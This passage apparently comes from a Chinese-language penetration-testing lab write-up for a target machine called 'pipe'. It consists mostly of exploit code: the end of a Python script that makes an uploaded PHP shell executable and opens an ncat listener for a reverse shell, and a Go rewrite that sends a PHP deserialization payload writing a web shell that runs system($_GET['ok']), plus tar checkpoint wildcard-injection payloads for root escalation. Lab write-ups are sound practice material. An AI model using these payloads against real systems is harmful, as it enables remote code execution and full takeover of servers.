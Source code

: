 ```python
        "http://192.168.1.20/scriptz/shell2.php?ok=" + urllib.parse.quote('chmod +x /home/rene/backup/shell2.sh',
                                                                          "utf=8"))
    print(f"Ready for Receiving Reverse Shell")


if __name__ == "__main__":
    web_exp()
    os.system("ncat -lvvp 20000")
```

![](/Users/ebounce/learning/刷靶机笔记/pipe/21.png)

成功反弹shell，并获得root权限。

### Golang

Golang版本查了很多资料，然后发现没那么复杂..

```go
package main

import (
    "bytes"
    "fmt"
    "io"
    "net/http"
    "net/url"
    "os"
    "os/exec"
)

func SendRequest(method string, urlstr string, data string) {
    PostData := url.Values{}
    PostData.Set("param", data)
    PostByte := []byte(PostData.Encode())
    req, err := http.NewRequest(method, urlstr, bytes.NewReader(PostByte))
    if err != nil {
        fmt.Println(err)
        return
    }
    client := &http.Client{}
    if method == "POST" {
        req.Header.Set("Content-Type", "application/x-www-form-urlencoded")
    }
    resp, err := client.Do(req)
    if err != nil {
        fmt.Print(err)
    }
    defer func(Body io.ReadCloser) {
        err := Body.Close()
        if err != nil {
        }
    }(resp.Body)
}

func main() {
    var OriginData string = "http://192.168.1.20/index.php"
    var payload1 string = `O:3:"Log":2:{s:8:"filename";s:32:"/var/www/html/scriptz/shell3.php";s:4:"data";s:54:"<?php echo "<p>"; system($_GET["ok"]); echo "<p\>"; ?>";}`
    var shellUrl string = "http://192.168.1.20/scriptz/shell3.php?ok="
    var payload2 string = url.QueryEscape(`touch "/home/rene/backup/--checkpoint-action=exec=sh shell3.sh"`)
    var payload3 string = url.QueryEscape(`touch "/home/rene/backup/--checkpoint=1"`)
```